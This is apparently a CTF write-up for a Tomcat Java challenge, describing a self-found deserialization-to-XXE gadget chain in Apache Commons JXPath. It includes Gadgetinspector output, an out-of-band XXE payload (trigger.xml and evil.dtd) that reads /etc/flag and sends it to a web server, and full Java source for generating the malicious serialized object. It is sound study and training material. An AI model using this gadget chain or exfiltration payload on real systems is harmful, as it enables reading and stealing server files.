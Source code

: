 # licpwn
A medium/hard Tomcat Java RE/PWN with the WAR File provided. It uses an "0-day" (not reported gadget) of the [Commons JXPath Library](http://commons.apache.org/proper/commons-jxpath/index.html) which contains an Deserialize to XXE gadget. Since userinput deserialization is possible the gadget can be used to extract the flag via OOB techniques.

## Description
From stage 1 the user gets the war file and hence can start reversing. He won't find anything special, except for the fact that he can serialize valid objects now :)


## Solution
The application takes untrusted user input and deserializes it. But the user will realize there are no RCE gadgets present. And even no known gadgets for any of those librarys. So he has to find his own gadgets, using [Gadgetinspector](https://github.com/JackOfMostTrades/gadgetinspector). 

```
0x4d5a@ubuntu:~/Downloads/gadgetinspector$ java -jar build/libs/gadget-inspector-all.jar ~/Idea/CoolCalc/target/erp.war
2019-02-11 23:36:45,643 gadgetinspector.GadgetInspector [INFO] Using WAR classpath: /home/alain/Idea/CoolCalc/target/erp.war
2019-02-11 23:36:45,910 gadgetinspector.GadgetInspector [INFO] Deleting stale data...
2019-02-11 23:36:45,910 gadgetinspector.GadgetInspector [INFO] Running method discovery...
[...]
2019-02-11 23:37:59,465 gadgetinspector.data.InheritanceDeriver [DEBUG] No class id for javax/crypto/KeyGeneratorSpi
2019-02-11 23:37:59,467 gadgetinspector.data.InheritanceDeriver [DEBUG] No class id for javax/crypto/SecretKey
2019-02-11 23:37:59,467 gadgetinspector.data.InheritanceDeriver [DEBUG] No class id for javax/crypto/SecretKeyFactorySpi
2019-02-11 23:37:59,781 gadgetinspector.GadgetInspector [INFO] Analyzing methods for passthrough dataflow...
2019-02-11 23:38:17,744 gadgetinspector.PassthroughDiscovery [DEBUG] Performing topological sort...
2019-02-11 23:38:18,755 gadgetinspector.PassthroughDiscovery [DEBUG] Outgoing references 273227, sortedMethods 273227
2019-02-11 23:39:01,611 gadgetinspector.GadgetInspector [INFO] Analyzing methods in order to build a call graph...
2019-02-11 23:39:27,188 gadgetinspector.GadgetInspector [INFO] Discovering gadget chain source methods...
2019-02-11 23:39:29,427 gadgetinspector.GadgetInspector [INFO] Searching call graph for gadget chains...
2019-02-11 23:39:41,067 gadgetinspector.GadgetChainDiscovery [INFO] Iteration 0, Search space: 1588
2019-02-11 23:39:41,182 gadgetinspector.GadgetChainDiscovery [INFO] Iteration 1000, Search space: 2436
2019-02-11 23:39:41,284 gadgetinspector.GadgetChainDiscovery [INFO] Iteration 2000, Search space: 2526
2019-02-11 23:39:41,322 gadgetinspector.GadgetChainDiscovery [INFO] Iteration 3000, Search space: 2837
2019-02-11 23:39:41,335 gadgetinspector.GadgetChainDiscovery [INFO] Iteration 4000, Search space: 2358
2019-02-11 23:39:41,383 gadgetinspector.GadgetChainDiscovery [INFO] Iteration 5000, Search space: 1700
2019-02-11 23:39:41,397 gadgetinspector.GadgetChainDiscovery [INFO] Iteration 6000, Search space: 1652
2019-02-11 23:39:41,413 gadgetinspector.GadgetChainDiscovery [INFO] Iteration 7000, Search space: 1540
2019-02-11 23:39:41,429 gadgetinspector.GadgetChainDiscovery [INFO] Iteration 8000, Search space: 1156
2019-02-11 23:39:41,436 gadgetinspector.GadgetChainDiscovery [INFO] Iteration 9000, Search space: 711
2019-02-11 23:39:41,448 gadgetinspector.GadgetChainDiscovery [INFO] Iteration 10000, Search space: 579
2019-02-11 23:39:41,469 gadgetinspector.GadgetChainDiscovery [INFO] Iteration 11000, Search space: 224
2019-02-11 23:39:41,481 gadgetinspector.GadgetChainDiscovery [INFO] Found 3 gadget chains.
2019-02-11 23:39:41,481 gadgetinspector.GadgetInspector [INFO] Analysis complete!
```

There have been 3 gadget chains found, but only one of them is actual usable:

```
javax/management/BadAttributeValueExpException.readObject(Ljava/io/ObjectInputStream;)V (1)
  org/apache/commons/jxpath/ri/model/NodePointer.toString()Ljava/lang/String; (0)
  org/apache/commons/jxpath/ri/model/NodePointer.asPath()Ljava/lang/String; (0)
  org/apache/commons/jxpath/ri/model/container/ContainerPointer.isCollection()Z (0)
  org/apache/commons/jxpath/util/ValueUtils.isCollection(Ljava/lang/Object;)Z (0)
  org/apache/commons/jxpath/util/ValueUtils.getValue(Ljava/lang/Object;)Ljava/lang/Object; (0)
  org/apache/commons/jxpath/xml/DocumentContainer.getValue()Ljava/lang/Object; (0)
  java/net/URL.openStream()Ljava/io/InputStream; (0)
```

It show a call graph for a deserialized object (BadAttributeValueExpException) which triggers the subsequent methods to finally arrive at openStream(). Once the user reverses this call he'll find this code:

```
public Object getValue() {
        if (this.document == null) {
            try {
                InputStream stream = null;

                try {
                    if (this.xmlURL != null) {
                        stream = this.xmlURL.openStream();
                    }

                    this.document = this.parseXML(stream);
```

xmlURL is user controlled, as well as document. This means he can provide an URL in the serialized object which triggers an openStream and parseXML call, resulting in an XXE.

The chain from above doesn't work since one overloaded method is not properly resolved. But the user can fix this gadget chain to achieve the same thing with a little bit different chain (using VariablePointer and instead of NodePointer). The chain looks from the callstack like this:
![](newchain.png)

The XXE result isn't reflected anywhere. Therefor the user has to use an OOB technique to extract the flag file provided at /etc/flag (change the IP addr to an external webserver!)

```
0x4d5a@ubuntu:~/Downloads/CTF/coolcalc$ cat trigger.xml 
<!DOCTYPE data [
  <!ENTITY % file SYSTEM
  "file:///etc/flag">
  <!ENTITY % dtd SYSTEM
  "http://127.0.0.1:8000/evil.dtd">
  %dtd;
]>
<data>&send;</data>
0x4d5a@ubuntu:~/Downloads/CTF/coolcalc$ cat evil.dtd 
<!ENTITY % all "<!ENTITY send SYSTEM 'http://127.0.0.1:8000/?collect=%file;'>">
%all;
```
Resulting in:
```
0x4d5a@ubuntu:~/Downloads/CTF/coolcalc$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
127.0.0.1 - - [11/Feb/2019 23:15:00] "GET /trigger.xml HTTP/1.1" 200 -
127.0.0.1 - - [11/Feb/2019 23:15:01] "GET /evil.dtd HTTP/1.1" 200 -
127.0.0.1 - - [11/Feb/2019 23:15:01] "GET /?collect=ALLES{sampleflag} HTTP/1.1" 200 -
```

Code to generate the malicious license file:
```
public class Main {
    public static void main(String[] args) throws Exception {

        if (args.length != 2)
        {
            System.out.println("Usage:");
            System.out.println("Mode 1: xxepoc.jar generate <url>");
            System.out.println("Mode 2: xxepoc.jar trigger <base64Object>");
            return;
        }


        if (args[0].equals("generate")) {
            // Neues DocumentContainer Objekt mit der XML URL die wir abrufen
            DocumentContainer cont = new DocumentContainer(new URL(args[1]), "DOM");

            // Das Document in ein Variablen-Objekt Verpacken
            BasicVariables variables = new BasicVariables();
            variables.declareVariable("document", cont);

            // Ein Variablenpointer mit der soeben erstellen Variable die auf das Dokument zeigt machen
            VariablePointer pointer = new VariablePointer(variables, new QName("document"));

            // Hole das this.index Feld per Reflection
            Field field = ReflectionUtil.getField(pointer.getClass(), "index");
            // Mache aus dem private Feld ein schreibares Feld
            ReflectionUtil.makeAccessible(field);
            // Schreibe einen Wert!
            field.setInt(pointer, 1337);

            // badAttributeValueExpException erzeugen
            BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
            // Wieder per Reflection das interne Feld mit unserem Payload setzen
            Field valField = badAttributeValueExpException.getClass().getDeclaredField("val");
            valField.setAccessible(true);
            valField.set(badAttributeValueExpException, pointer);

            // Serialisieren und Base64 encodieren
            String serialized = toString(badAttributeValueExpException);
            System.out.println(serialized);
        }
        else if (args[0].equals("trigger"))
        {
            fromString(args[1]);
        }
        else {
            System.out.println("Invalid Action 3!");
        }
    }

    public static void serialize(final Object obj, final OutputStream out) throws IOException {
        final ObjectOutputStream objOut = new ObjectOutputStream(out);
        objOut.writeObject(obj);
    }

    /** Read the object from Base64 string. */
    private static Object fromString( String s ) throws IOException,
            ClassNotFoundException {
        byte [] data = Base64.getDecoder().decode( s );
        ObjectInputStream ois = new ObjectInputStream(
                new ByteArrayInputStream(  data ) );
        Object o  = ois.readObject();
        ois.close();
        return o;
    }

    /** Write the object to a Base64 string. */
    private static String toString( Serializable o ) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream( baos );
        oos.writeObject( o );
        oos.close();
        return Base64.getEncoder().encodeToString(AES.encrypt(baos.toByteArray()));
    }
}
```

Done :)